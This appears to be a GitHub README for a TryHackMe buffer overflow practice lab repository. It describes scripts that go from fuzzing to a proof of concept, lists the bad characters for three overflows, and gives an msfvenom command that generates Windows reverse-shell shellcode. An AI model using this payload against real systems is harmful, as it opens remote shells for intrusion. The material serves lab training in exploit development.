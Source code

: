 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final POC 

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "\<badChars-specific-to-overflow\>" EXITFUNC=thread -v shellcode

# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
